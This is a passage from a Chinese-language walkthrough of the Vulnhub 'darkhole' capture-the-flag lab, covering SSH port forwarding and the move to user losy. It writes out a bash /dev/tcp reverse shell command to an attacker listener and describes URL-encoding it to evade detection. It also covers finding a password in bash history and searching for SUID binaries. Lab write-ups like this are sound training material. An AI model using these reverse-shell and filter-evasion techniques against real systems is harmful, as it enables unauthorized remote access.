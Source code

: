这里的复现地址，需要注意，127.0.0.1是目标地址，不过这里是指通过ssh连接后的，`jehad`用户的那个端口，也就是上面截图中，进行监听的

可以看到登录成功

![](D:\stu\vulnhub\darkhole靶场\pic-2\12-3.jpg)



再开一个终端，测试端口转发是否可行，完全没问题

![](D:\stu\vulnhub\darkhole靶场\pic-2\12-4.jpg)



这时候，可以尝试使用`bash`来进行反弹，前面查看的时候，`losy`具有`bash`，并且也有执行权限

![](D:\stu\vulnhub\darkhole靶场\pic-2\13.jpg)



#### 反弹用户losy的shell

构造`bash`反弹

```shell
bash -i >& /dev/tcp/192.168.1.16/8888 0>&1
```

然后先在kali中使用`nc`监听8888端口，再执行上面的命令

发现不行，然后在命令前加上`bash -c`表示后面的字符，以`bash`执行，所以后面需要把前面的命令使用引号括起来



![](D:\stu\vulnhub\darkhole靶场\pic-2\13-1.jpg)



不过还是不行，可能有检测。尝试进行编码，测试能否绕过

使用`url`编码后，成功反弹

![](D:\stu\vulnhub\darkhole靶场\pic-2\13-2.jpg)



查看该用户的家目录下有什么`ls -al`，发现和之前一样，有历史记录，查看

![](D:\stu\vulnhub\darkhole靶场\pic-2\14.jpg)

发现有几个有意思的

![](D:\stu\vulnhub\darkhole靶场\pic-2\15.jpg)



在`bash`中打出了用户`losy`的密码，然后`losy`用户可以使用`sudo、su`切换用户，并且，进入到`lama`后，怎么提权都给出了

使用`find`寻找`SUID`

![](D:\stu\vulnhub\darkhole靶场\pic-2\16.jpg)

